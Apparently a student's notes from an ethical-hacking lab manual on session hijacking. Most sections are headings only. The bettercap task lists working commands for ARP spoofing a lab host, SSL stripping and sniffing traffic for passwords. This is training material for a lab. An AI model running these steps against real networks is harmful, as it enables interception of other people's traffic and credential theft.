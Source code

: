# LAB 1. Perform Session Hijacking
---
## 1.1 Hijacking a Session using Zed Attack Proxy (ZAP)
---
**LAB Manual 3 : Page 1362**





## Task 2 Intercept HTTP Traffic using bettercap
---
**LAB Manual 3 : Page 1377**
1. bettercap -h
2. bettercap -iface wlo1
3. help
4. net.probe on
5. net.recon on
6. set http.proxy.sslstrip true    # enables SSL striping.
7. set arp.spoof.internal true     # spoofs the loacl connections amoung computers of the internal network
8. set arp.spoof.targets 10.10.1.11
9. http.proxy on     # initiates http proxy
10. arp.spoof on    # initiates arp spoofing
11. net.sniff on      # performing sniffing on the network
12. `set net.sniff.regexp '.*password=.+'`   # only consider the packet sent with a payload matchiing the given regular.


## Task 3: Intercept HTTP Traffic using Hetty
---
**LAB Manual 3 : Page 1387**

# LAB 2 : Detect Session Hijacking
---
## Task 1 : Detect Session Hijacking using Wireshark
---
**LAB Manual 3 : Page 1400**
![[Pasted image 20241028183336.png]]